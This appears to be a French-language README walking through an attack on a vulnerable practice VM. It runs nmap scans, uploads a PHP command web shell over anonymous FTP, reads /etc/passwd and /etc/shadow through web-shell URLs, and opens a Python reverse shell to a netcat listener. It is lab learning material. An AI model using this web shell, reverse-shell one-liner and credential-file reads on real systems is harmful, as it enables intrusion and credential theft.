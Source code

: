 
# télécharger
```01-Local1.ova```

# mettez ceci 
```sha1sum 01-Local1.ova``` pour vérifier le hash

# et regardez si le résultat est
```f3422f3364fd38e8183740f8f57fa951d3f6e0bf```

# installer virtualbox si ce n'est pas encore fait
```sudo apt update && sudo apt install -y virtualbox```

# assure toi d'avoir les outils nécessaires
```sudo apt update && sudo apt install -y net-tools nmap john hydra metasploit-framework```

# double clic sur ```01-Local1.ova```

# donnez 4096MB comme RAM (pour renforcer la machine virtuelle)
au lieu de de 512

# Changez l'adapter en NAT
au lieu de Bridge

# assure toi que la machine virtuelle
soit activée

# mettez ceci
nmap -sn 192.168.1.0/24

# sélectionnez l'adresse de la VM et mettez ceci
nmap -A ```adresse```

# se connecter
se connecter et examiner les fichiers trouvés

# créer webshell.php et y mettre ceci:
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = ($_GET['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
```

# mettre ceci
ftp 192.168.1.26
login: anonymous
pwd: Entrée (le bouton)

# téléverser le fichier
```put nc.php```

# éxécuter ceci dans un terminal
- nc -lvnp 12000
    - -l : Active le mode "listener".
    - -v : Mode verbeux pour voir les connexions établies.
    - -n : Ignore les DNS pour accélérer la connexion.
    - -p 12000 : Spécifie le port d'écoute.

# faire passer www-data à un utilisateur privilégié

# mettre ceci dans le navigateur:
- http://192.168.1.8/files/simple_shell.php?cmd=cat%20/etc/crontab
- http://192.168.1.8/files/simple_shell.php?cmd=find%20/%20-perm%20-u=s%20-type%20f%202%3E/dev/null
- http://192.168.1.8/files/webshell.php?cmd=cat%20/etc/passwd
- http://192.168.1.26/files/webshell.php?cmd=ls%20-l%20/etc/shadow
- http://192.168.1.26/files/webshell.php?cmd=cat%20/var/backups/apt.extended_states.1.gz

# username
shrek

# password
not yet

# nmap -sV -sC -O 192.168.1.8
- -sV : Détecte les versions des services en cours d'exécution.
- -sC : Utilise des scripts Nmap pour détecter des vulnérabilités connues.
- -O : Détermine le système d’exploitation (si possible).

# ceci sur la machine physique
nc -lvnp 4444

# ceci sur la machine virtuelle
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.1.26",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash","-i"]);'

# sur le shell
ls -la /etc/passwd /etc/shadow
ls -la /etc/sudoers

# rechercher des fichiers mal sécurisés
find / -type f \( -name "*.conf" -o -name "*.sh" -o -name "*.txt" \) -exec ls -la {} +


# developer
- Prénom NOM: Mouhamed DIOUF
- email: seydiahmedelcheikh@gmail.com

-----------------------------------------------------------------------------------------------

# link for kali
- https://www.youtube.com/watch?v=trPm2DB8678
- https://www.youtube.com/watch?v=B7wCf0JiOcM&list=PLZEN0mW2CQl38fx0wtv53VEmn5CKJIrLA